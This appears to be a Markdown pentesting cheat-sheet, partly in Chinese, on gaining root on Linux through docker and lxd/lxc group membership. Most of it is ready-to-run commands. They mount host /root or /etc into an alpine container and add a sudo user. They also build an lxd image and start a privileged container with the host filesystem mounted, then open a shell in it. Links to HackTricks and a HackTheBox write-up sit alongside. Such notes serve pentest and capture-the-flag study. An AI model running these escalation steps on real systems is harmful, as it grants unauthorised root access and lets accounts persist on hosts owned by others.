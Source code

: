 **提权方式1，挂载/root 读取信息**

```
docker run -v /root/:/mnt -it alpine:3.14
```

**提权方式2，映射/etc添加用户**

```
docker run -it --rm -v /etc:/etc alpine:3.14 /bin/sh

adduser test
usermod -aG sudo test
#或者
adduser test sudo

#退出docker
sudo su
```

**docker container breakout**
+ docker container breakout/escape; pg-sirol
+ [container breakout](https://tbhaxor.com/container-breakout-part-1/)
+ [hacktricks-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

## lxd/lxc group
same to docker
[hacktricks-lxcd/lxc group PE](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[htb-brainfuck](https://p0i5on8.github.io/posts/hackthebox-brainfuck/#vigenere-cipher)

* method 1
https://github.com/lxc/distrobuilder

```
#-Prepare image
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

#-upload image to target, add this image
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image

#-create container and add root path
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

#-execute container
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```